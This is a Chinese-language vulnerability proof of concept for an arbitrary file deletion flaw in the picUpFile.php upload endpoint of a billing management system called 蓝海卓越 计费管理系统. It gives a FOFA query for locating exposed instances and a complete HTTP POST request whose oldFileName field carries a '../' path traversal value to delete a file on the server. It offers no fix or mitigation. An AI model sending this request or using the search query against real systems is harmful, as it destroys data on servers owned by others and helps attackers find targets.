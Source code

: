 # 蓝海卓越 计费管理系统picUpLoad存在任意文件删除漏洞

# 一、漏洞简介
蓝海卓越 计费管理系统picUpLoad存在任意文件删除漏洞

# 二、影响版本
+ 蓝海卓越 计费管理系统

# 三、资产测绘
+ fofa`title=="蓝海卓越计费管理系统"`
+ 特征

![1716136162798-aa34ed6f-ea20-43f2-99a7-dba6a1e626c9.png](./img/oXQ_3ojiaYdjzEDT/1716136162798-aa34ed6f-ea20-43f2-99a7-dba6a1e626c9-714250.png)

# 四、漏洞复现
```plain
POST /inc/picUpFile.php?upFileFoler=&upFileID=&viewID= HTTP/1.1
Host: 
Content-Length: 1447494
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryehA9evlvumScbjSw
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lp91fvnja6f987dj7jmkjh5601
Connection: close

------WebKitFormBoundaryehA9evlvumScbjSw
Content-Disposition: form-data; name="oldFileName"

../../../../../usr/local/usr-gui/test.php
------WebKitFormBoundaryehA9evlvumScbjSw
Content-Disposition: form-data; name="file"; filename="c.jpg"
Content-Type: image/jpeg

PNG


```

删除前

![1716390398206-8c468003-c696-4598-8722-1bf12f77f597.png](./img/oXQ_3ojiaYdjzEDT/1716390398206-8c468003-c696-4598-8722-1bf12f77f597-977713.png)

![1716390672971-2ed1b251-e00c-421c-8d55-b9d57b0387b5.png](./img/oXQ_3ojiaYdjzEDT/1716390672971-2ed1b251-e00c-421c-8d55-b9d57b0387b5-466649.png)

删除后

![1716390648320-9877848d-e0e0-4eb9-8161-04ed283e68ab.png](./img/oXQ_3ojiaYdjzEDT/1716390648320-9877848d-e0e0-4eb9-8161-04ed283e68ab-968201.png)



> 更新: 2024-05-23 12:33:24  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mcsdegx6gomcebd8>